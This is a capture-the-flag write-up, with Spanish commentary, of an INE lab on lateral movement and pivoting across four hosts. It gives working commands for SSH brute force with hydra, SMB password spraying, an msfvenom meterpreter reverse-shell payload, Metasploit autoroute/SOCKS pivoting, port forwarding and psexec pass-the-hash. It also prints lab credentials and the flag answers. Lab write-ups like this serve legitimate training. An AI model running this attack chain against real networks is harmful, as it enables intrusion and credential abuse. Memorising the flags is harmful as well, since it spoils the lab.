






# Lateral Movement & Pivoting CTF 1

<p align="center"> 

</p>

## Task 1: Exploit open services on target1.ine.local to gain initial access

User john may have chosen a weak password. Explore open services running on target1.ine.local to identify potential credential vulnerabilities and locate the first flag.

Para obtener la primera flag haremos una fuerza bruta al servicio ssh.

```
hydra -l john -P /usr/share/eaphammer/wordlists/rockyou.txt  ssh://target1.ine.local
```

Credencial --> **john**:**password1**

```
ssh john@target1.ine.local
```

answer: **b6cf94180ec147a9a21efd3be74b0c3b**

## Task 2: Enumerate databases on target1.ine.local to retrieve hidden credentials

Gaining access to databases may reveal sensitive information. Locate the second flag by using mike’s credentials on target1.ine.local.

```
mysql -u john -p -h target1.ine.local
```

```
SHOW DATABASES;
use usersinfo
SELECT * FROM target2_users;
SELECT * FROM users;
```

<p align="center"> 

</p>

Credenciales:

**alice**:**C@ntcr@ck!t19**
**mike**:**Uncr@ckable67**

```
ssh mike@target1.ine.local
```

answer: **49789d091d1548ceb4bdcdc4799f7171**

## Task 3: Leverage an open service on target2.ine.local to escalate access

User alice might hold the key to accessing target2.ine.local. Identify open services that can be exploited to escalate access and capture the third flag.

```
ssh alice@target2.ine.local
```

answer: **000d5f61399c48fb8a2f80bcae6b3c33**

## Task 4: Exploit target3.ine.local to obtain Administrator credentials

Identify weaknesses in target3.ine.local that allow access to Administrator credentials. Use this information to capture the fourth flag and further your control over the network.

```
crackmapexec smb target3.ine.local -u /usr/share/metasploit-framework/data/wordlists/common_users.txt -p /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
```

Credenciales **rooty**:**spongebob**

```
xfreerdp /u:rooty /p:spongebob /v:target3.ine.local /dynamic-resolution +clipboard
```

<p align="center"> 

</p>

answer: **3a956c42c4674d0fbfb420fb5d1b62a9**

## Task 5: Pivot from target3.ine.local to target4.ine.local using discovered hashes

Use the hash obtained earlier to pivot from target3.ine.local to target4.ine.local. Successfully executing this attack will allow you to retrieve the final flag.

Estas credenciales lo encontramos el fichero **Hash.txt**

Credenciales --> **Administrator**: **5c4d59391f656d5958dab124ffeabc20**

```
ip a
```

<p align="center"> 

</p>

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.49.2 LPORT=4444 -f exe -o abc.exe
```

Una vez creado lo subimos a smbclient. 

```
smbclient //target3.ine.local/Shared2 -U rooty%spongebob
put abc.exe
```

Iniciamos sesion por RDP 

```
xfreerdp /u:rooty /p:spongebob /v:target3.ine.local /dynamic-resolution +clipboard
```

<p align="center"> 

</p>

Preparamos el puerto de escucho por metasploit

```
msfconsole -q
use exploit/multi/handler
set LHOST 10.10.49.2
set PAYLOAD windows/x64/meterpreter/reverse_tcp
exploit
```

En la sesion anterior activamos el archivo anterior que esta en **C:\Shared/abc.exe**

<p align="center"> 

</p>

Ahora la idea es traernos hacia nuestra kali la ip **target4.ine.local**

```
run autoroute -s 10.2.22.0/20
background
use auxiliary/server/socks_proxy
set SRVPORT 9050
set VERSION 4a
run
```

<p align="center"> 

</p>

En mi kali realizo el nmap a target4.ine.local

```
proxychains nmap -p- -Pn -sT -v target4.ine.local
```

<p align="center"> 

</p>

Los puertos que están abierto: **3389**, **139**, **445**, **135**. El que nos interesa **445**
En metasploit volvemos iniciar la sesión de meterpreter y desde ahí añadimos el puerto 445 a nuestra ip.

```
portfwd add -l 9999 -p 445 -r 10.2.29.252
```

Con este comando conseguimos traernos el puerto **445** de **target4.ine.local** a nuestro **localhost**:**9999**. A continuación usaremos el módulo de metasploit **psexec** para establecer la conexión.

```
use exploit/windows/smb/psexec
set PAYLOAD windows/meterpreter/bind_tcp
set LHOST 127.0.0.1
set LPORT 9999
set RHOSTS 10.2.29.252
set smbuser Administrator
set smbpass 00000000000000000000000000000000:5c4d59391f656d5958dab124ffeabc20
exploit
```

<p align="center"> 

</p>

```
shell
powershell
cd /
type flag5.txt
```

answer: **5b3195415a55481b8ecf809f6b696579**